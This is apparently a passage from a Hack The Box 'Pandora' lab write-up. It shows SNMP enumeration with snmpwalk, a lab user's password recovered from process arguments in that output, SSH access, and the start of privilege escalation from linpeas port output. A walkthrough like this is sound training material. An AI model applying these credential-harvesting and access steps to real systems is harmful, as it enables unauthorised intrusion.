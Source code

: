 We will then proceed to add panda.htb to our /etc/hosts file.

```
10.10.11.136    pandora.htb panda.htb
```

However, visiting http://panda.htb only redirects us to the same site so, we are unable to find anything meaningful from there.

## Exploit
### SNMP enumeration
From the earlier nmap output, UDP port 161 is an SNMPv1 server. So, we will use snmpwalk to enumerate all the information from the snmp server. We will then redirect the output to a file named ```snmp.txt```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ snmpwalk -v1 -c public 10.10.11.136 .1 > snmp.txt
```
From the output file, we are able to obtain a set of credentials

```
┌──(kali㉿kali)-[~/Desktop]
└─$ cat snmp.txt | grep "daniel"
iso.3.6.1.2.1.25.4.2.1.5.795 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.1116 = STRING: "-u daniel -p HotelBabylon23"
```

### SSH to Daniel
Using the credentials that we have obtained from the snmp enumeration, we can SSH into the server.

```
┌──(kali㉿kali)-[~]
└─$ ssh daniel@10.10.11.136                       
daniel@pandora:~$ pwd
/home/daniel
daniel@pandora:~$ 
```

However, we realize that the user flag is in matt's directory and we do not have the privilege to access the directory.

```
daniel@pandora:/home$ cat matt/user.txt
cat: matt/user.txt: Permission denied
```

### Privilege Escalation to Matt

Using the linpeas script, we realize that ports 53 and 3306 are open on the localhost. Hence, we would need to do port forwarding to make the service on ports 53/3306 available on our local machine. 

```
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                             
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      - 
```
